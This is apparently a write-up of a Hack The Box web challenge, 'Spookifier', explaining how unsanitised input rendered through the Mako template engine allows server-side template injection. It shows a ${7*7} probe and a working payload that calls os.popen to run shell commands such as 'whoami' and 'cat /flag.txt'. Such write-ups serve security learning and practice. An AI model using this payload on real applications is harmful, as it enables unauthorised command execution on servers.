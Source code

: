 ```yaml
---
title: Spookifier
published: 2025-09-08
description: 'There is a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?'
image: ''
tags: ['SSTI','WEB','PYTHON']
category: 'HTB-CHALLENGES'
draft: false 
---
```


![web logo](./Spookifier-Images/web.png)

> - 3. The current_font list is then combined into a string and append to a list named
all_fonts .
> - 4. Returns the all_fonts list which contains the generated variations.
The generate_render function from the Mako template engine is used to generate an HTML
table with the resultant list:
Since the user-supplied content is not sanitized, we can inject template literals and achieve Server
Side Template Injection (SSTI). We can verify this by submitting the following template expression
```${7*7}``` :


![logo](./Spookifier-Images/ssti.png)

- now i found this payload for show how i can connect to server :
```py
${self.module.cache.util.os.popen('whoami').read()}
```
![whoami](./Spookifier-Images/whoami.png)

> - Now i can change `whoami` to `cat /flag.txt` for read flag !!!

